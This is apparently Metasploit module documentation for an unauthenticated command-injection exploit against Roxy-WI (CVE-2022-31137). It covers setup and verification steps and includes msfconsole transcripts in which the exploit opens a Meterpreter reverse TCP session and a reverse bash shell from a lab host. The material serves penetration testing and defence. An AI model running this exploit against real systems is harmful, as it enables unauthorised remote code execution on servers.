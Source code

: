 ## Vulnerable Application

### Description

This module exploits command injection vulnerability to achieve remote code execution.
Unauthenticated users can execute a terminal command under the context of the web server user

In versions 6.1.1.0 and earlier, an unauthenticated user can execute some methods of administrator fun without needing any credentials.

Technical details about the vulnerability can be found at
[here](https://pentest.blog/advisory-roxy-wi-unauthenticated-remote-code-executions-cve-2022-31137/).
The original GitHub advisory can be found at https://github.com/hap-wi/roxy-wi/security/advisories/GHSA-53r2-mq99-f532.
The patch can be found at https://github.com/hap-wi/roxy-wi/commit/82666df1e60c45dd6aa533b01a392f015d32f755

### Setup

Roxy-WI requires Python and a web server to run. Please visit following url to find out required python and other packages.

[https://roxy-wi.org/installation.py](https://roxy-wi.org/installation.py)

```
git clone https://github.com/hap-wi/roxy-wi.git /var/www/haproxy-wi
chmod +x haproxy-wi/app/*.py 
sudo ./haproxy-wi/app/create_db.py
chown -R www-data:www-data haproxy-wi
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/roxy_wi_exec`
4. Set `RHOST`
5. Set `LHOST`
8. Run `exploit`
9. Do: `run`
10. You should get a shell.
11. **Verify** that you are getting meterpreter session.

## Options
Set `TAGETURI` if the Roxy-WI is installed at a custom path.

### TARGETURI
The base path to Roxy-WI. The default value is `/`

## Scenarios

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Sending stage (40164 bytes) to 192.168.56.116
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.116:37394) at 2022-07-21 13:49:23 +0300
[+] Exploit successfully executed.

meterpreter > pwd
/var/www/haproxy-wi/app
```

You can also use cmd payloads.

```
msf6 > use exploit/linux/http/roxy_wi_exec 
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/roxy_wi_exec) > set RHOST 192.168.56.116
RHOST => 192.168.56.116
msf6 exploit(linux/http/roxy_wi_exec) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(linux/http/roxy_wi_exec) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/http/roxy_wi_exec) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.56.116:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Generating payload.
[*] Trying to detect command injection vulnerability.
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.116:37396) at 2022-07-21 13:50:23 +0300
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)```
```
